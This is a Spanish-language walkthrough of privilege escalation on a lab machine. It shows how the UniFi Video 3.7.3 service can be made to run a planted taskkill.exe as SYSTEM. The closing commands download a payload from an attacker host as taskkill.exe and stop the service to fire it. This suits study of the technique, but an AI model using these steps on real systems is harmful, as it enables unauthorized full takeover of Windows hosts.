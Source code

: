 # PrivEsc

Al entrar lo primeeeero que me llama la atención es el archivo unifivideo, que si mal no recordé en ese momento, se trata de uno de los productos de Ubiquiti. Buscando con google acerca de este producto, encontraremos un [exploit local](https://www.exploit-db.com/exploits/43390), el cual abusa de los privilegios de la carpeta unifi-video, ya que el servicio avService.exe que corre con la cuenta NT AUTHORITY/SYSTEM, le otorga sus permisos (ACL). El riesgo es que es posible ejecutar un archivo arbitrario "taskkill.exe" como NT AUTHORITY/SYSTEM, porque cada vez que el servicio es iniciado y terminado, busca primero dentro de la carpeta "C:\ProgramData\unifi-video\" si el ejecutable se encuentra.

Cualquier usuario que pueda escribir en "C:\ProgramData\unifi-video\" y que pueda iniciar y terminar el servicio, podrá explotar esta vulnerabilidad. Y eso es precisamente lo que vamos a hacer.

Primero verificamos que la versión instalada es vulnerable, buscando el archivo de configuración dentro de la carpeta "C:\ProgramData\unifi-video\":

```
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir


    Directory: C:\programdata\unifi-video


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
d-----        6/16/2018   9:55 PM                conf
d-----        6/16/2018  10:56 PM                data
d-----        6/16/2018   9:54 PM                email
d-----        6/16/2018   9:54 PM                fw
d-----        6/16/2018   9:54 PM                lib
d-----        2/16/2019  12:19 AM                logs
d-----        6/16/2018   9:55 PM                webapps
d-----        6/16/2018   9:55 PM                work
-a----        7/26/2017   6:10 PM         219136 avService.exe
-a----        2/16/2019  12:00 AM          34855 hs_err_pid1328.log
-a----        2/16/2019  12:00 AM      471599465 hs_err_pid1328.mdmp
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log
-a----        6/17/2018  11:23 AM      534204321 hs_err_pid1992.mdmp
-a----        8/16/2018   7:47 PM              0 hs_err_pid2036.mdmp
-a----        2/16/2019  12:19 AM          34477 hs_err_pid3336.log
-a----        2/16/2019  12:19 AM      523514725 hs_err_pid3336.mdmp
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe


[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
# unifi-video v3.7.3
#Sat Jun 16 21:58:13 EDT 2018
is_default=false
uuid=e79d440a-62cd-4274-95c3-d746cbb3b817
# app.http.port = 7080
# app.https.port = 7443
# ems.liveflv.port = 6666
# ems.livews.port = 7445
# ems.livewss.port = 7446
# ems.rtmp.enable = true
# ems.rtmp.port = 1935
# ems.rtsp.enable = true
# ems.rtsp.port = 7447
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService